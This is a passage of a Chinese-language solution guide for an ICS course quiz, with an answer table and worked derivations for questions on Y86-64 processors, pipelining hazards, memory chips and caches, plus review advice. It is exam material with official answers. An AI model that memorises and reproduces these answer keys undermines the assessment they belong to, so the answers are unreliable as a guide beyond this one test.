| 十六进制与十进制混用 | 4.2、7.1、8.3 | 把 0x18 当成 18；把 36 写成 0x36 | 计算前统一进制；结果写完再换算回去检查 |
| 有符号与无符号混淆 | 2.3、5.4 | −5 < 3U 判为真；以为 ja 是有符号比较 | 先看操作数类型；记住 a/b 系列是无符号，g/l 系列是有符号 |
| 舍入判断错误 | 3.3、3.4、3.5 | 被舍部分 011 也进位；恰好一半一律进位 | 与 100…0 比较：小于舍、大于进、等于看末位奇偶 |
| 浮点运算后未规格化 | 3.4 | 用 10.101₂×2² 直接编码 | 尾数 ≥ 2 就右移一位、阶数加 1；编码时阶码加偏置 |
| AT&T 操作数顺序 | 4.3、5.2 | sub S,D 算成 S − D；cmp 后的条件方向写反 | 一律读作“D 与 S 比较”“D = D op S” |
| 条件跳转没有取反 | 5.2 | 把 if (x > y) 翻成 jg | 跳转是为了跳过，条件取反 |
| lea 与 mov 混淆 | 4.4、6.3 | 传地址时写成 movq；以为 lea 会读内存 | lea 只算地址不访存；C 中的 & 对应 lea |
| 调用后的值从哪里来 | 6.2、6.3 | 调用后仍用 %rdi；用调用前的 local | 调用者保存寄存器在 call 后失效；被指针修改的变量从内存重读 |
| 结构体对齐与联合重叠 | 7.2、8.1 | sizeof(Rec) 算成 32；混淆 struct 与 union | struct 按对齐累加；union 同起点重叠、取最大成员 |
| 指针运算的缩放 | 7.1、7.2 | p[1] 只前进 1 字节或 4 字节 | p + i 前进 i × sizeof(*p) 字节 |
| 缓冲区溢出与结尾 \0 | 8.3 | 漏算 gets 末尾的 \0；误以为 0x41 盖最低字节 | n 个字符占 n+1 字节；第 33 字节 \0 盖返回地址最低字节 |
| 各防御机制的作用边界 | 8.2、8.3 | 以为金丝雀或 NX 能阻止改写返回地址；以为 ASLR 消除越界 | 只有改源码消除越界；金丝雀事后检测；NX 禁执行不禁写栈 |
后续复习建议#
从今年的卷子看，阶段测验的出题方式相当稳定：按讲次分组，每讲两到五道小题，几乎都是“给出代码或数据，写出结果”，难度与研讨题和课后练习题相当，很少需要复杂的技巧，但每一步都要求精确。分数的差距主要来自前面那些可以避免的错误，而不是不会做。因此复习时，与其做大量新题，不如把典型题做到又快又准：每做一道题都把中间结果写下来（二进制展开、地址计算的每一项、寄存器和内存的逐条跟踪），对答案时不只看最终结果，还要看出错发生在哪一步，并把它归到上表的某一类里。
今年新增的两种题型值得专门准备。一是选择题，尤其是不定项选择：它的评分规则让“多选错一个”比“少选一个”代价大得多，平时做概念题时就应该养成对每个选项分别给出理由的习惯，对没有把握的选项宁可不选。二是“整条指令写完整”的汇编补全：要求写出正确的后缀（q/l）、正确的操作数顺序和完整的寄存器名。练习方法很直接：把研讨题和讲义中的小函数用 gcc 以 -Og -S 编译，先遮住汇编自己写，再与编译器的输出逐行对照。本卷 5.2、5.3、6.2、6.3 的汇编都与 gcc 13 -Og 的输出一致，可见这些题目与编译器的真实输出完全吻合，按这种方法练习最贴近考试。
最后，第 3 讲和第 4 讲今年分值大幅增加，说明“基础题”并不意味着分值小。浮点部分要能熟练完成自定义位宽下的编码、解码、舍入和简单运算；机器级基础部分要熟悉 objdump 的格式、寻址计算和 lea 的各种用法。第 8 讲则要把栈帧布局、小端字节序、gets 结尾的 \0 与三种防御手段的作用阶段串成一条线，这些内容在 ICS03、ICS04、ICS08 讲义和冲刺讲义第三部分都有系统的整理和练习。
计算机系统导论（ICS）
第 2 次阶段测验 · 试题解析
2026 年秋季，第 9–17 讲（处理器体系结构、存储器层次与高速缓存、程序优化、链接、异常控制流）
这份解析怎么用#
第一部分是答案速查和试卷结构，最后一张表把每道题对应到冲刺讲义和各讲讲义的小节，复习时可以顺着它回到原来的讲解。第二部分按讲次逐题解析：先列题目和官方答案，再讲推导，容易错的地方用橙色方框标出。第三部分是这次试卷反映出的失分点和期末复习的建议。
试卷原文中的图（电路图、时序图、SEQ 取指部件图、内存条照片）没有照搬，解析中改用表格或重新绘制的图，题目中需要的信息都写进了题干。
第一部分 答案速查与试卷结构#
1.1 答案速查#
表 1 2026 年第 2 次阶段测验答案速查
| 题号 | 考点 | 答案 | 讲义 |
|---|---|---|---|
| 9.1 | ISA 规定的内容（不定项） | A、C | 冲刺 3.1 |
| 9.2 | 共享地址加法器的输入选择 | B | 冲刺 4.1 第 2 题 |
| 9.3 | HCL 补电路（位选择器） | 非门、两个与门、或门 | 冲刺 4.1 第 3 题 |
| 9.4 | 寄存器与多选器的时序图 | sum：6、11；Out：9、11 | 冲刺 3.1 例 3.1 |
| 10.1 | 读寄存器文件的阶段 | B | 冲刺 3.2 |
| 10.2 | call 的写入地址与新 PC | 0xFF8；0x400 | 冲刺 3.2 |
| 10.3 | rmmovq 的阶段表 | 见 2.2 节 | 冲刺 3.2 |
| 10.4 | iaddq 的信号与控制逻辑 | valC、valB、rB；A、B、D | 冲刺 5.1 |
| 11.1 | 流水线提高的指标 | D | 冲刺 3.3 |
| 11.2 | 周期、延迟、8 条指令、再细分 | 160、480、1600、120 | 冲刺 3.3、陷阱 5 |
| 11.3 | 转发的来源与优先级（不定项） | B、C | 第 11 讲 11.6 |
| 11.4 | 加载/使用与 ret 的组合 | A | 第 11 讲 11.12 |
| 11.5 | 加载/使用加误预测的周期数 | 5；12 | 第 11 讲 11.17 |
| 12.1 | SRAM 与 DRAM | D | 冲刺 3.4 |
| 12.2 | 内存条容量、芯片与字节 | 128；8；0x89 | 冲刺 4.4 第 13 题 |
| 12.3 | 局部性（不定项） | B、C | 冲刺 3.4 |
| 12.4 | 磁盘访问时间 | 9.16；72.16 | 冲刺 3.4 |
| 13.1 | 组数 | B（32） | 冲刺 2.2 |
| 13.2 | 平均访问时间 | 5；1.8 | 冲刺 2.2 |
| 13.3 | 不命中的分类与相联度（不定项） | A、C、D | 冲刺 3.5 |
| 13.4 | 组相联、LRU、写回的模拟 | 6；1；16、32；32 | 冲刺 5.3 |
| 13.5 | 按列访问二维数组的冲突 | 16；4 | 冲刺 3.5 |
| 14.1 | 优化的种类 | A | 冲刺 3.6 |
| 14.2 | 链接器符号（不定项） | A、C、D | 冲刺 3.7 |
| 14.3 | 内存别名 | 12；9 | 冲刺 3.6 |
| 14.4 | 共享库与静态库（不定项） | A、D | 冲刺 3.7、5.4 |
| 14.5 | 重定位的计算 | 0x00601088；0xFFFFFFBB | 冲刺 3.7 例 3.7 |
| 16.1 | 缺页故障的返回 | A | 冲刺 3.8 |
| 16.2 | execve 与 PID | C | 冲刺 3.8 |
| 16.3 | 信号不排队与回收子进程 | 1；2；3；4 | 冲刺 3.9 例 3.9 |
| 16.4 | fork 与 waitpid 的可行输出 | 3；A、D | 冲刺 3.8 例 3.8 |
| 16.5 | setjmp 与 longjmp | 11 | 第 17 讲 17.12 |
1.2 试卷的结构#
试卷仍按讲次分成七组，各组分值与 2025 年同一次测验几乎相同（表 2），第 12 讲少了 2 分，第 16/17 讲多了 2 分。题型变化明显：2025 年以填空和简答为主，今年改为以选择题为主，32 道题中有 9 道单项选择、8 道不定项选择（其中 10.4、16.4 是大题中的一问），简答题完全没有出现，填空题也大多只要求写一个数。不定项选择的评分规则印在注意事项中：全对 3 分，少选且没有错选 1 分，错选或不选 0 分。所以拿不准的选项宁可不选，一旦选错一个，这道题就是 0 分。
表 2 2025 年与 2026 年第 2 次阶段测验各组分值
| 分组 | 2025 | 2026 | 2026 年的题型 |
|---|---|---|---|
| 第 9 讲 | 12 | 12 | 不定项 1、单选 1、作图 1、时序图填空 1 |
| 第 10 讲 | 16 | 16 | 单选 1、填空 2、iaddq 综合题 1 |
| 第 11 讲 | 16 | 16 | 单选 2、不定项 1、计算填空 2 |
| 第 12 讲 | 14 | 12 | 单选 1、不定项 1、计算填空 2 |
| 第 13 讲 | 16 | 16 | 单选 1、不定项 1、计算填空 3 |
| 第 14/15 讲 | 14 | 14 | 单选 1、不定项 2、计算填空 2 |
| 第 16/17 讲 | 12 | 14 | 单选 2、填空 3（其中一题含不定项） |
另一个变化是第 17 讲真的出题了。2025 年卷面写着“第 16/17 讲”，三道题却全是第 16 讲的内容；今年 16.3 考信号不排队，16.5 考 setjmp 与 longjmp，共 6 分。冲刺讲义 1.2 节当时判断“不能排除出一两道关于信号基本概念的小题”，结果出的正是“同一种信号只有一个待处理位”和“回收子进程要用循环”这两个最核心的结论。
1.3 卷面上的小问题#
这次的卷面和官方答案质量很高，所有答案都与课件定义一致，没有发现 2025 年那样的错误答案。只有两处文字问题。11.5 的题干写“I1 在第个周期取指”，缺了一个数字，按官方答案的流水线表应为“第 1 个周期”。10.2 的官方解析最后一句“ret 从原栈顶读回返回地址，并使栈指针增加 8”与这道题无关，是解析写作时留下的，不影响答案。
另外值得一提的是 11.2（2）：“1 条指令的操作在流水线中的总延迟”，官方答案是 480 ps，即级数乘以时钟周期。2025 年同类题的官方答案曾把延迟写成各级时间之和（冲刺讲义 4.3 节指出那是错的），今年的答案与课件定义一致。
1.4 与冲刺讲义的对应#
表 1 最后一列给出了每道题在冲刺讲义中的出处。32 道题中，几乎每一道都能在冲刺讲义的讲解、例题或 2025 年试卷解析中找到同类题，有几道几乎是原题的变形：9.3 的位选择器与 2025 年第 3 题（2）完全相同；12.2 的内存条与 2025 年第 13 题同一设定；11.4 的“加载 %rsp 之后紧跟 ret”是冲刺讲义陷阱清单的第 8 条；14.5 的 PC 相对重定位就是例 3.7 的算法；16.3 是例 3.9 的放大版。这再一次说明，阶段测验的题目来自课件和研讨题的核心结论，把这些结论吃透、把每类计算做熟，比做大量新题更有效。
第二部分 逐题解析#
2.1 第 9 讲：ISA 与逻辑设计（12 分）#
9.1 ISA 规定的内容（不定项，3 分）#
9.1（不定项）以下规定中，哪些属于指令集体系结构（ISA）规定的内容，而不是软件调用约定或处理器的内部实现方式？
A. 算术指令执行后，条件码如何根据运算结果改变。
B. 过程调用前后，哪些通用寄存器由被调用者保存。
C. 条件跳转成立时，程序计数器应更新为何种地址。
D. 实现一条指令时，内部数据需要经过几级流水线。
答案
A、C
ISA 规定的是程序员能看到的状态和每条指令对这些状态的作用。A 说的是算术指令怎样改变条件码，C 说的是跳转指令怎样改变 PC，都是指令的语义，属于 ISA。B 是调用约定：哪些寄存器由被调用者保存，是编译器和库之间的约定，硬件并不知道，换一套约定程序照样能在同一台机器上运行。D 是微体系结构：同一个 ISA 可以用 SEQ 实现，也可以用五级流水线或乱序处理器实现，程序看不出差别。这道题与 2025 年第 1 题考的是同一个边界（冲刺讲义 3.1 节）：“参数放在哪个寄存器”“哪些寄存器被调用者保存”是约定，“call 把返回地址压栈”“条件码怎样设置”是 ISA。
9.2 共享地址加法器的输入选择（2 分）#
9.2某个类似本课程教学用的处理器，两条访存指令的功能如下表。rA、rB 是两个寄存器编号字段，D 是位移；R[r] 表示寄存器 r 中的值，M[x] 表示内存地址 x 处的数据。寄存器文件的两个读端口固定输出 valA = R[rA]、valB = R[rB]。两条指令共用一个地址加法器：一个输入接 D，另一个输入由数据选择器从 valA、valB 中选择。要让两条指令都能正确计算访存地址，数据选择器应采用哪种选择规则？
A. 取数和存数时都选 valA，然后与位移 D 相加。
B. 取数时选 valA，存数时选 valB，然后与 D 相加。
C. 取数时选 valB，存数时选 valA，然后与 D 相加。
D. 取数和存数时都选 valB，然后与位移 D 相加。
表 3 9.2 题中两条访存指令的功能
| 指令 | 执行功能 |
|---|---|
| 取数指令 | R[rB] ← M[R[rA] + D] |
| 存数指令 | M[R[rB] + D] ← R[rA] |
答案
B
地址是“基址寄存器 + D”。取数指令的基址是 R[rA]，读出来在 valA；存数指令的基址是 R[rB]，在 valB。所以选择器在取数时选 valA，存数时选 valB。这道题是 2025 年第 2 题的反面：Y86-64 的 mrmovq、rmmovq 都用 rB 作基址，地址固定来自 valB，就不需要这个选择器；这里故意让两条指令的基址来自不同的字段，于是多出了一个选择器和它的控制信号。读题时要按表中给出的语义来，不要套用 Y86-64 的习惯。
9.3 根据 HCL 补全电路图（3 分）#
9.3根据 HCL 表达式补全电路图，要采用本课程使用的逻辑门电路符号。
bool out = (s&&a)||(!s&&b)
卷面给出的电路框中已画出 s、b、a 三条输入线和 out 输出端，s 已分出一支与 a 接入一个与门，其余部分待补全。
图 1 9.3 卷面给出的待补全电路
答案
s 经过一个非门后与 b 接一个与门（!s && b）；s 与 a 接另一个与门（s && a）；两个与门的输出接一个或门，输出 out。共三个门，每个门 1 分。
表达式的结构就是电路的结构：每个 && 是一个与门，! 是一个非门，最外层的 || 是一个或门（图 2）。这正是课件中的位选择器（bit MUX）：s 为 1 时输出 a，s 为 0 时输出 b，与 2025 年第 3 题（2）完全相同。画图时注意两点：与门是“平底加半圆”，或门是“凹底尖头”，不要画反；非门的小圆圈要画在输出端。
图 2 9.3 的答案：位选择器（两个与门、一个非门、一个或门）
9.4 寄存器与多选器的时序图（4 分）#
9.4分析下面的电路和对应的时序图。其中：Reg 是上升沿触发的寄存器，输出 Out 初值为 2；ALU 计算 sum = Out + In；MUX 是多选器，根据 Load 的值，选择对应编号的输入通道输出到 Next。
根据时序图中已有的信息，填出缺失的信号值（时序图中的虚线框，每空 1 分）：sum 的两个值，Out 的两个值。
图 3 9.4 的电路
图 4 9.4 的时序图（虚线框为待填的值）
答案
sum：6、11；Out：9、11
做这类题只需要记住两条：组合逻辑（ALU、多选器）的输出随输入立即变化，所以 sum 在每一段时间里都等于当时的 Out + In；寄存器只在上升沿把 Next 存进来，两个上升沿之间 Out 保持不变。把时序图按上升沿 T1–T6 切成几段，逐段列出来就清楚了（表 4，加粗的是卷面上缺的四个值）。
表 4 9.4 的逐段推导（每一行是相邻两个上升沿之间的一段）
| 时间段 | Out | In | sum = Out + In | Load | 下一个上升沿时 Out 变成 |
|---|---|---|---|---|---|
| T1 之前 | 2 | 3 | 5 | 1 | 5（选 sum） |
| T1–T2 | 5 | 1 | 6 | 0 | 5（选 Out，保持） |
| T2–T3 | 5 | 4 | 9 | 1 | 9（选 sum） |
| T3–T4 | 9 | 2 | 11 | 1 | 11（选 sum） |
| T4–T5 | 11 | 5 | 16 | 0 | 11（保持） |
| T5–T6 | 11 | 2 | 13 | 0 | 11（保持） |
| T6 之后 | 11 |
表中每一行“下一个上升沿时 Out 变成”的值，就是下一行的 Out，用它可以核对卷面上已经给出的值（T1 之后 Out = 5，T4 之后 Out = 11）。冲刺讲义 3.1 节例 3.1 是同一类题。
⚠ 时序图题的常见错误
最常见的错误是让寄存器的输出跟着输入变化：Load = 1 的那一段里看到 sum = 9，就把同一段的 Out 也写成 9。寄存器只在上升沿采样，T2–T3 这一段 Out 仍是 5，要到 T3 的上升沿之后才变成 9。另一个错误是在 Load = 0 时以为 Out 变成 In：这个电路中 MUX 的 0 号输入接的是 Out 自己，Load = 0 就是保持。
2.2 第 10 讲：SEQ（16 分）#
10.1 读寄存器文件的阶段（2 分）#
10.1在 SEQ 处理器中，从寄存器文件（RegFile）读出指令所需源操作数，属于哪个阶段的工作？
A. 取指（Fetch） B. 译码（Decode） C. 执行（Execute） D. 访存（Memory）
答案
B
SEQ 的译码阶段从寄存器文件读出 valA、valB（读端口地址是 srcA、srcB），执行阶段用 ALU 计算。写寄存器则在写回阶段。
10.2 call 的写入地址与新的 PC（2 分）#
10.2SEQ 处理器运行时，当前 PC = 0x120、%rsp = 0x1000，正在执行 call 0x400。Y86-64 的 call 指令长 9 字节。以下答案均用十六进制表示。
（1）call 向数据内存写入返回地址时，写入地址为 0x____。（1 分）
（2）call 执行结束后，PC = 0x____。（1 分）
答案
（1）0xFF8 （2）0x400
call 的阶段表：取指得到 valC = 0x400、valP = 0x120 + 9 = 0x129；译码读 valB = R[%rsp] = 0x1000；执行 valE = valB + (−8) = 0xFF8；访存 M8[valE] ← valP，即把返回地址 0x129 写到 0xFF8；写回 R[%rsp] ← 0xFF8；更新 PC ← valC = 0x400。问的是“写入地址”，不是写入的值 0x129；写入地址是减 8 之后的新栈顶，不是原来的 0x1000。
10.3 rmmovq 的阶段表（6 分）#
10.3Y86-64 的 rmmovq 指令编码格式为：rmmovq rA, D(rB) 编码为 4 0 rA rB D（D 占 8 字节）。根据该指令的操作，补全下表（共需填 6 空，每空 1 分）。若无需任何操作，则填“无”。
表 5 10.3 卷面上的阶段表（括号和方括号处待填）
| 阶段 | rmmovq rA, D(rB) |
|---|---|
| Fetch | icode:ifun ← M1[PC] |
| rA:rB ← M1[PC+1] | |
| valC ← M8[PC+2] | |
| valP ← （ ） | |
| Decode | valA ← R[rA] |
| valB ← R[ ] | |
| Execute | valE ← （ ） + valC |
| Memory | M8[ ] ← valA |
| Write back | （ ） |
| PC update | （ ） |
答案
取指：valP ← PC + 10。译码：valB ← R[rB]。执行：valE ← valB + valC。访存：M8[valE] ← valA。写回：无。更新 PC：PC ← valP。
表 6 rmmovq rA, D(rB) 的阶段表（加粗的是要填的 6 空）
| 阶段 | 操作 |
|---|---|
| 取指 | icode:ifun ← M1[PC]；rA:rB ← M1[PC+1]；valC ← M8[PC+2]；valP ← PC + 10 |
| 译码 | valA ← R[rA]；valB ← R[rB] |
| 执行 | valE ← valB + valC |
| 访存 | M8[valE] ← valA |
| 写回 | 无 |
| 更新 PC | PC ← valP |
rmmovq 有寄存器字节和 8 字节常数，共 1 + 1 + 8 = 10 字节，所以 valP = PC + 10。地址由 rB 加位移算出：译码读 valB = R[rB]，执行算 valB + valC；要写进内存的数据是 valA = R[rA]。它不改寄存器，写回为“无”。这张表与 2025 年第 5 题的 popq 表是同一类题，区别在于 rmmovq 用 valE 作地址，popq 用 valA 作地址（冲刺讲义 3.2 节）。
10.4 iaddq 的信号与控制逻辑（6 分）#
10.4拟在原始 SEQ 处理器上增加指令 iaddq V, rB。该指令的功能是：把 64 位立即数 V 与寄存器 rB 中的值相加，将结果写回 rB，并按 OPq 的规则更新条件码。该指令编码为 C0｜F:rB｜8 字节 V，共 10 字节，控制常量记为 IIADDQ。计划只扩展控制逻辑，不改动现有数据通路；固定采用 valE = valB + valC：立即数送 ALU 的 A 端，寄存器值经 B 读端口送 ALU 的 B 端，结果经 E 写端口写回。
（1）从候选项中填写该指令对应的信号值（每空 1 分，共 3 分）：aluA 的候选项为 valA、valB、valC、0；aluB 的候选项为 valA、valB、valC、0；dstE 的候选项为 rA、rB、RRSP、RNONE。
（2）（不定项，3 分）为了正确执行该指令，下列控制逻辑的修改哪些是必需的？
A. need_regids 的成立条件中加入 IIADDQ。
B. need_valC 的成立条件中加入 IIADDQ。
C. 执行 IIADDQ 时，使数据存储器（Data Memory）写使能信号为 1。
D. 设置条件码信号（set_cc）的成立条件中加入 IIADDQ。
图 5 10.4 卷面附的控制逻辑相关信息：SEQ 的取指阶段
答案
（1）aluA = valC，aluB = valB，dstE = rB。（2）A、B、D
（1）题干已经规定 valE = valB + valC，立即数送 ALU 的 A 端，寄存器值送 B 端，结果写回 rB，所以三个信号分别是 valC、valB、rB。（2）逐项检查：iaddq 有寄存器字节（F:rB），取指要读它，A 必需；有 8 字节立即数，取指要读出 valC，B 必需；它不访问内存，C 不但不必需，而且是错的，会把数据写进内存；它要按 OPq 的规则更新条件码，D 必需。
⚠ iaddq 题的两个细节
第一，题目问的是“必需的修改”，实际实现时还要把 IIADDQ 加进 instr_valid（否则取指阶段会把它判为非法指令），以及 srcB 的条件（让译码阶段读 rB）。这两项不在选项中，但完整地实现时不能漏。第二，Arch Lab 的 Part B 要实现的 iopq 与这条指令几乎相同（运算种类由 ifun 决定），Arch Lab 讲义的 Part B 部分和冲刺讲义 5.1 节的 leave 题，都是“先写语义、再找最接近的已有指令、逐行修改阶段表”的同一套方法。
2.3 第 11 讲：流水线（16 分）#
11.1 流水线提高的指标（2 分）#
11.1与完成相同功能的单周期顺序处理器实现相比，流水线处理器在理想稳态下最直接提高的是哪项指标？
A. 指令的编码密度 B. 寄存器的数据位宽 C. 单条指令的运算精度 D. 单位时间完成的指令数
答案
D
流水线让多条指令的不同阶段重叠执行，提高的是吞吐量，即单位时间完成的指令数。单条指令从进入到完成的延迟并不缩短，反而因为流水线寄存器的开销而略有增加。
11.2 周期、延迟与吞吐（4 分）#
11.2某三级流水线处理器的组合逻辑延迟依次为 60 ps、100 ps、140 ps，每级末端寄存器均带来 20 ps 开销（见下表）。时钟周期取允许的最小值。无数据相关、无停顿。
（1）该流水线可设置的最小时钟周期为 ____ ps。（1 分）
（2）1 条指令的操作在流水线中的总延迟为 ____ ps。（1 分）
（3）从空流水线开始，连续完成 8 条指令的操作共需 ____ ps。（1 分）
（4）只把 C 级的 140 ps 组合逻辑均分为两个 70 ps 级，各级仍有 20 ps 寄存器开销；其他级不变。新流水线的最小时钟周期为 ____ ps。（1 分）
表 7 11.2 的各级延迟
| 流水级 | A | B | C |
|---|---|---|---|
| 组合逻辑延迟（ps） | 60 | 100 | 140 |
| 寄存器开销（ps） | 20 | 20 | 20 |
答案
（1）160 ps （2）480 ps （3）1600 ps （4）120 ps
（1）所有级共用一个时钟，周期由最慢的一级决定：140 + 20 = 160 ps。（2）一条指令要经过三级，每级都要等满一个周期，延迟是 3 × 160 = 480 ps，不是各级时间之和 60 + 100 + 140 + 3 × 20 = 360 ps。（3）第 1 条指令要 3 个周期才完成，之后每个周期完成一条，8 条共 3 + 8 − 1 = 10 个周期，即 1600 ps。（4）C 拆成两个 70 + 20 = 90 ps 的级后，最慢的变成 B 级，100 + 20 = 120 ps。这说明拆分流水级只有拆的是最慢的那一级才有用，而且收益到下一个最慢的级为止。
⚠ 延迟是级数乘以周期
这是冲刺讲义陷阱清单的第 5 条，2025 年第 7 题的官方答案也在这里出过错。流水线中每一级都按同一个时钟推进，较快的级做完后也要等到时钟边沿，所以一条指令的延迟是“级数 × 周期”。写成各级时间之和，就默认了较快的级可以提前把结果交给下一级，这在同步流水线中做不到。
11.3 转发的来源与优先级（不定项，3 分）#
11.3（不定项）在初始为空的 PIPE 处理器中执行下面的代码，执行前 %rbx = 5。当 I3 处于 D 阶段时，下列说法哪些正确？
A. I3 应从 M 阶段的 I1 取得操作数 %rax 的值 3。
B. I3 应从 E 阶段的 I2 取得操作数 %rax 的值 7。
C. 按程序顺序执行，I3 将把数值 12 写入 %rbx。
D. I4 必须停顿到 I3 完成寄存器写回后，才能继续。
I1: irmovq $3, %rax
I2: irmovq $7, %rax
I3: addq %rax, %rbx
I4: rrmovq %rbx, %rcx答案
B、C
I3 在 D 阶段时，I2 在 E 阶段，I1 在 M 阶段，两者都要写 %rax。转发逻辑按“从新到旧”的优先级选择：E 阶段的 e_valE（I2 的 7）排在 M 阶段的 M_valE（I1 的 3）前面，因为按程序顺序 I2 在 I1 之后，%rax 的最新值是 7。所以 A 错、B 对，I3 计算 5 + 7 = 12，C 对。I4 读 %rbx，下一个周期 I3 在 E 阶段，它的结果 e_valE 可以直接转发给 I4，不需要停顿，D 错。在实验工具的 PIPE 模拟器上运行这段程序，I3 在 D 阶段的那个周期，valA 显示为 “0x7 ← e_valE（执行级转发）”；下一个周期 I4 的 valA 为 “0xc ← e_valE”。
11.4 加载 %rsp 之后紧跟 ret（3 分）#
11.4PIPE 处理器运行时，某周期 E 阶段是 mrmovq 8(%rbx), %rsp，D 阶段是紧随其后的 ret，其他阶段没有异常或错误分支预测。正确的控制动作应是下表中的哪一组？动作在下一周期生效。
表 8 11.4 的选项
| 选项 | F 寄存器 | D 寄存器 | E 寄存器 |
|---|---|---|---|
| A | stall | stall | bubble |
| B | stall | bubble | normal |
| C | normal | bubble | bubble |
| D | stall | stall | normal |
答案
A
这就是课件中的“组合 B”（第 11 讲 11.12 节）：同时满足加载/使用冒险（mrmovq 在 E 级要写 %rsp，ret 在 D 级要读 %rsp）和 ret 冒险。按加载/使用的处理，F、D 暂停，E 插入气泡，让 ret 在 D 级多等一个周期，等 mrmovq 读出新的 %rsp 后再转发给它；按 ret 的处理本来要往 D 插入气泡，但那会把还没有执行的 ret 冲掉，所以修正后的 D_bubble 在加载/使用时不成立。选项 B 是只按 ret 处理的结果，正是课件中初始版本控制逻辑的错误。默认环境上用 PIPE 模拟器运行这一组合，ret 在 D 级停留两个周期，之后才注入 ret 的 3 个气泡。
11.5 加载/使用加误预测：数周期（4 分）#
11.5PIPE 处理器的流水线初始为空，I1 在第 1 个周期取指。已知 M8[R[%rdi]] = 5，初始 %rbx = 0、%rcx = 10。执行下面的程序；I5 之后均为 nop，不会产生异常。
（1）I2 实际进入 E 阶段是在第 ____ 个周期。（2 分）
（2）最终按正确路径执行的 I5 到达 W 阶段是在第 ____ 个周期。（2 分）
I1: mrmovq 0(%rdi), %rax
I2: andq %rax, %rax
I3: je L
I4: irmovq $1, %rbx
L:
I5: addq %rbx, %rcx答案
（1）5 （2）12
先找冒险。I1 加载 %rax，I2 紧接着用它，是加载/使用冒险，停一个周期。I3 是条件跳转，PIPE 总是预测跳转，先取跳转目标 I5；I2 的结果是 5，不为零，je 实际不跳转，预测错误，取消两条错误路径上的指令，从 I4 重新取指。表 9 是逐周期的流水线表，与实验工具的 PIPE 模拟器输出一致（模拟器中前面加了几条设置寄存器的指令，周期整体后移 8 个）。
表 9 11.5 的流水线表（D′、F′ 表示因暂停而重复的同一条指令）
| 指令 | F | D | E | M | W |
|---|---|---|---|---|---|
| I1 mrmovq | 1 | 2 | 3 | 4 | 5 |
| I2 andq | 2 | 3、4（D′） | 5 | 6 | 7 |
| I3 je | 3、4（F′） | 5 | 6 | 7 | 8 |
| I5（错误路径，被取消） | 5 | 6 | — | — | — |
| 下一条（错误路径，被取消） | 6 | — | — | — | — |
| I4 irmovq | 7 | 8 | 9 | 10 | 11 |
| I5 addq（正确路径） | 8 | 9 | 10 | 11 | 12 |
（1）I2 在第 3 周期进入 D，发现加载/使用冒险，第 4 周期留在 D，同时 E 级插入气泡；第 5 周期进入 E，此时 I1 在 M 级读出 5，经 m_valM 转发给 I2。（2）I3 第 6 周期在 E 级算出条件不成立，第 7 周期 F 取 I4（顺序地址来自 M_valA），错误路径上的两条指令被换成气泡。I4 第 7 周期取指，正确路径上的 I5 第 8 周期取指，第 12 周期到达 W。
⚠ 数周期时最容易漏的两件事
第一，加载/使用的暂停不只让 I2 晚一个周期，也让后面所有指令（包括 I3 的取指）晚一个周期，表中 I3 的 F 在第 3、4 周期都出现。第二，“I5”有两个：第 5 周期曾按预测取到一次 I5，它在第 6 周期到达 D 后被取消；题目问的是最终按正确路径执行的那一个。按 11.17 节的公式核对：5 条指令（I1–I5）完成需要 5 + 4 = 9 个周期，加上 1 个加载/使用气泡和 2 个误预测气泡，最后一条 I5 在第 12 周期写回。
2.4 第 12 讲：存储器层次结构（12 分）#
12.1 SRAM 与 DRAM（2 分）#
12.1下列关于课程所讲 SRAM 与 DRAM 的描述，哪项正确？
A. SRAM 需要周期性刷新，DRAM 不需要。
B. SRAM 与 DRAM 都能在掉电后长期保存数据。
C. SRAM 与 DRAM 都用一个晶体管和一个电容存储一位。
D. SRAM 不需要周期性刷新，DRAM 需要；两者均易失。
答案
D
SRAM 每一位用一个由六个晶体管组成的双稳态电路保存，只要通电就能一直保持，不需要刷新；DRAM 每一位用一个电容和一个晶体管保存，电荷会慢慢泄漏，必须周期性地刷新。两者断电后数据都会丢失，都是易失的。A 把两者说反了，C 只对 DRAM 成立。
12.2 内存条（3 分）#
12.2一条内存模块由 8 颗规格为 16M×8（16M 个内存单元，每个单元存 8 位数据）的 DRAM 芯片并行组成，无 ECC 校验纠错。每次访问时 8 颗芯片选择相同的 supercell 地址，各提供 8 位数据，共组成一个 64 位数据字。约定芯片 0 提供该数据字的位 7—0，芯片 1 提供位 15—8，依此类推。（卷面附一张内存模块的照片。）
（1）该内存模块的数据容量为 ____ MiB。（1 分）
（2）一次对齐的 64 位数据写入，需要同时使用 ____ 颗芯片。（1 分）
（3）写入数值 0x0123456789ABCDEF 时，芯片 3 接收的数据为 0x____。（1 分）
答案
（1）128 （2）8 （3）0x89
（1）一颗芯片有 16M 个单元，每个 8 位即 1 字节，容量 16 MiB，8 颗共 128 MiB。（2）一个 64 位数据字由 8 颗芯片各提供 8 位拼成，读写一个字时 8 颗芯片同时工作，所以是 8 颗。（3）芯片 3 提供位 31–24，也就是从低位数第 4 个字节。0x0123456789ABCDEF 从低到高的字节依次是 EF、CD、AB、89，芯片 3 收到 0x89。这道题与 2025 年第 13 题是同一个设定（冲刺讲义 4.4 节）：一个 64 位字分散在 8 颗芯片上，每颗存其中 8 位，而不是存在某一颗芯片里。
12.3 局部性（不定项，3 分）#
12.3（不定项）数组 a 按 C 语言的行优先方式连续存储，sizeof(int) = 4。只讨论下面代码规定的访问次序，不考虑编译器改变循环。下列说法哪些正确？
A. 内层循环相邻两次数组访问的地址相差 32 字节。
B. 交换 i、j 两层循环且保持 a[j][i] 不变，可改善空间局部性。
C. 循环体中同一组指令被反复执行，体现时间局部性。
D. 按行连续读取不同数组元素，主要利用数组的时间局部性。
int a[32][32]; /* initialized */
long sum = 0;
for (int i = 0; i < 32; i++)
for (int j = 0; j < 32; j++)
sum += a[j][i];答案
B、C
内层循环变的是 j，访问 a[j][i]，相邻两次相差一整行，32 × 4 = 128 字节，不是 32 字节，A 错。交换两层循环后内层变的是 i，a[j][i] 中相邻两次访问相差 4 字节，按行连续访问，空间局部性变好，B 对。循环体的指令被反复执行，是指令的时间局部性，C 对。按行连续读取不同的元素，利用的是空间局部性（相邻的元素在同一个块中），不是时间局部性，D 错。冲刺讲义 3.4 节的“局部性的四种体现”正是这一题：数据和指令各有时间局部性与空间局部性。
12.4 磁盘访问时间（4 分）#
12.4某机械硬盘转速为 6000 转/分钟，平均寻道时间 4 ms，目标磁道恰有 500 个等大小扇区。每次独立随机读取的起始转动位置均匀分布。忽略控制器、总线、命令处理和扇区间隙开销，按课件的“寻道 + 旋转等待 + 传输”模型计算。
